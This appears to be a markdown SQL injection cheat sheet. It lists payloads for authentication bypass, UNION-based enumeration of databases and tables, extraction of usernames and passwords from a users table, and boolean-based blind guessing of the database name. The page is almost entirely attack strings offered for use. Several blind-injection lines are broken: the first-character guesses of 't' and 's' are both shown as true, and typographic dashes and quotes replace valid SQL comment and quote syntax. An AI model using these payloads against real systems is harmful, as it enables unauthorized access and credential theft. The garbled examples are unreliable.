 ```yaml
---
title: SQL Injection
lastUpdated: 2025-09-21
---
```


## Bypass authentication

| Query | Purpose |
| ----------- | ----------- |
| `admin' or '1'='1` | Bypass basic authentication |
| `admin')-- -` | Bypass basic authentication with comments |

## Union Injection

| Query | Purpose |
| ----------- | ----------- |
| `wok' order by 1-- -` | Detect the number of columns using `order by` |
| `wok' UNION select 1,2,3-- -` | Detect the number of columns using Union injection |
| `wok' union select schema_name,2,3,4,5,6 from information_schema.schemata-- -` | Get all databases |
| `wok' union select table_name,2,3,4,5,6 from information_schema.tables where table_schema=database();-- -` | Get all tables |
| `wok' union select username,password,3,4,5,6 from users;-- -` | Get username and password |

## Blind SQL Boolean Based

### check database length

`wok' and (length(database())) = 12—` : `false`

`wok' and (length(database())) > 12 —` : `true`

`wok' and (length(database())) = 13 —` : `true`

### guess the database name of each character

`wok' and (substr(database(),1,1))=’t’ —` : `true`

`wok' and (substr(database(),1,1))=’s’ —` : `true`

`wok' and (substr(database(),1,2))=’sa’ —` : `false`

`wok' and (substr(database(),1,2))=’sq’ —` : `true`

`wok' and (substr(database(),1,13))=’sql_injection’ —` : `true`